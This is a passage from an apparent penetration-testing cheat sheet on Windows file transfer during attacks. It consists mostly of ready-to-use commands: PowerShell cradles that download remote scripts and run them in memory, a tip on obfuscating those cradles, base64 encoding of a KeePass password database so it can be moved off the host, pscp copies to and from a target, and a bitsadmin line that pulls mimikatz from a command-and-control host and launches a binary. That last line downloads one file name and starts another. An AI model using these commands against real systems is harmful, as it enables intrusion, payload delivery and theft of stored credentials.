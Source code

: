```powershell


cscript wget.vbs <url> <out_file>

Use echoup function on pentest.ws to generate echo commands.
https://pentest.ws/features
```



#### [](#header-4) Powershell

```powershell
#https://github.com/danielbohannon/Invoke-CradleCrafter Use this to craft obsufacted cradles

Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"

(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 

#Powershell Download to Memory

IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

#Powershell with Proxy

$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```



#### [](#header-4) Powershell Base64

```powershell
$fileName = "Passwords.kdbx"
$fileContent = get-content $fileName
$fileContentBytes = [System.Text.Encoding]::UTF8.GetBytes($fileContent)
$fileContentEncoded = [System.Convert]::ToBase64String($fileContentBytes)
$fileContentEncoded | set-content ($fileName + ".b64")
```



#### [](#header-4) Secure Copy / pscp.exe

```
pscp.exe C:\Users\Public\m0chan.txt user@target:/tmp/m0chan.txt
pscp.exe user@target:/home/user/m0chan.txt C:\Users\Public\m0chan.txt
```



#### [](#header-4) BitsAdmin.exe

```
cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://c2.m0chan.com C:\Temp\mimikatz.exe & start C:\Temp\binary.exe"
```

